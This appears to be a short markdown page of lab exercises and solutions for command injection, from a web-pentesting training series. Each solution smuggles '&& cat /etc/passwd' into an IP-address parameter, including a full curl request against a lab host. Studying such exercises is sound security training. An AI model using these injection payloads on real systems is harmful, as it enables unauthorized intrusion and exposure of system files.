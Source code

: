 # Phase III: Vulnerbility discovery & Exploitation
## Command Injection
| excercise | solution |
|___________|__________|
| example 1 | 10.0.2.4+%26%26+cat+%2Fetc%2Fpasswd 10.0.2.4 && cat /etc/passwd|
| example 2 | 10.0.2.4%0A%26%26+cat+%2Fetc%2Fpasswd 10.0.2.4(New Line)&& cat /etc/passwd|
| example 3 | curl -X GET http://10.0.2.4/commandexec/example3.php?ip=10.0.2.4%0A%26%26+cat+%2Fetc%2Fpasswd |